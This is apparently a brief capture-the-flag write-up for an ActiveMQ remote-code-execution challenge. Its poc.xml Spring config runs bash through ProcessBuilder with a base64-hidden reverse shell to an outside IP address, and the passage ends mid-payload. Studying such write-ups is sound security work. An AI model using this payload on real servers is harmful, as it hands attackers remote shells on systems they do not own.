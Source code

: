```python
```

![](static/ZB1xbiBnao0jsRxrzd4cl3DvnNd.png)

## Be-an-ActiveMq-Hacker | solved

activemq 的 RCE，[https://github.com/X1r0z/ActiveMQ-RCE](https://github.com/X1r0z/ActiveMQ-RCE)

poc.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzExNi42Mi42NS4yMDYvNTI1MjAgMD4mMQ==}|{base64,-d}|{bash,-i}</value>
```